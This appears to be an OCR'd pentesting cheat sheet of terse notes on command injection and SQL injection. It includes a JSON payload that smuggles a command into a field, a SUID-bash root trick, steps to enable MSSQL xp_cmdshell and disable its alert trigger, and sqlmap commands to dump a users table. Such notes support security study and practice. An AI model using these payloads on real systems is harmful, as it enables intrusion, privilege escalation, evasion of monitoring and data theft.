 **remember that it's better to use "bash -c"**

we can try to double ; to get command injection 

`chmod +s /bin/bash` to set bash as suid and get root with `bash -p`

another method for command injection:

```js
{"target":"\"; ping 10.9.1.194; echo \""}
```

## SQL INJECTION


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

comment for sqli:

`-- ` (note the space! we can use a `-- -` to be sure)

enable xp_cmdshell for mssql to execute commands


SQL INJECTION IN UPDATE STATEMENT EXISTS AND WE CAN TRY TO INJECT NEW ADMIN HASHED PASSWORDS

SEARCH ON INTERNET FOR CMS EXPLOITS OR SQLI

delete policy that doesn't allow you to execute xp_cmdshell

`disable trigger ALERT_xp_cmdshell on all server`

we can use impacket-mssqlclient to connect to mssql

https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

### sqlmap 

capture request with burpsuite then copy it and save to a file

then,

`sqlmap -r req.txt`


enumerate databases

`sqlmap -r req.txt --dbs`

set database type:

`sqlmap -r req.txt --dbms=mysql`

get database tables:

`sqlmap -r req.txt -D webapp --tables`

dump database

`sqlmap -r req.txt -D webapp -T users --dump`

does not always work
